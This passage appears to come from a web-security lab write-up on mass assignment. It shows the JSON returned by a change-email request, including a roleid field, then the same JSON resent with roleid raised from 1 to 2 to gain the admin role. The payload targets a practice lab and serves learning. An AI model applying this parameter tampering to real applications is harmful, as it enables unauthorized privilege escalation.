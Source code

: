 We can observe that the `POST` request to `/my-account/change-email` from the application returns.
```
{
  "username": "wiener",
  "email": "admin@dontwannacry.com",
  "apikey": "zGZt1abEVMvagJ5kxC4ZAGcaE1tamky6",
  "roleid": 1
}
```
Puting this information into an request gives us the admin role
```
{
  "username": "wiener",
  "email": "admin@dontwannacry.com",
  "apikey": "zGZt1abEVMvagJ5kxC4ZAGcaE1tamky6",
  "roleid": 2
}
```
